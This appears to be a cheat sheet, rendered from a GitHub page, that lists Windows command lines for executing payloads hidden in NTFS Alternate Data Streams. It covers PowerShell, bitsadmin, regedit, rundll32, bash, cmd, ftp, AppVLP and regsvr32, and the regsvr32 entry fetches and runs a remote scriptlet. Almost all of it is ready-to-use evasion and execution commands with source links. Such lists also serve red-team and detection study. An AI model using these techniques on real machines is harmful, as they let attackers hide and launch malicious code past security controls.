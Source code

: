 ```

* Powershell.exe
Invoke-CimMethod -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = C:\ads\folder:file.exe}

* Regedit.exe
regedit c:\ads\file.txt:regfile.reg

* Bitsadmin.exe
bitsadmin /create myfile
bitsadmin /addfile myfile c:\windows\system32\notepad.exe c:\data\playfolder\notepad.exe
bitsadmin /SetNotifyCmdLine myfile c:\ADS\1.txt:cmd.exe NULL
bitsadmin /RESUME myfile

* AppVLP.exe
AppVLP.exe c:\windows\tracing\test.txt:ha.exe

* Cmd.exe
cmd.exe - < fakefile.doc:reg32.bat
https://twitter.com/yeyint_mth/status/1143824979139579904

* Ftp.exe
ftp -s:fakefile.txt:aaaa.txt
https://github.com/sailay1996/misc-bin/blob/master/ads.md

* ieframe.dll , shdocvw.dll (ads)
echo [internetshortcut] > fake.txt:test.txt && echo url=C:\windows\system32\calc.exe >> fake.txt:test.txt rundll32.exe ieframe.dll,OpenURL C:\temp\ads\fake.txt:test.txt
rundll32.exe shdocvw.dll,OpenURL C:\temp\ads\fake.txt:test.txt
https://github.com/sailay1996/misc-bin/blob/master/ads.md

* bash.exe
echo calc > fakefile.txt:payload.sh && bash < fakefile.txt:payload.sh
bash.exe -c $(fakefile.txt:payload.sh)
https://github.com/sailay1996/misc-bin/blob/master/ads.md

* Regsvr32
type c:\Windows\System32\scrobj.dll > Textfile.txt:LoveADS
regsvr32 /s /u /i:https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Regsvr32_calc.sct Textfile.txt:LoveADS
```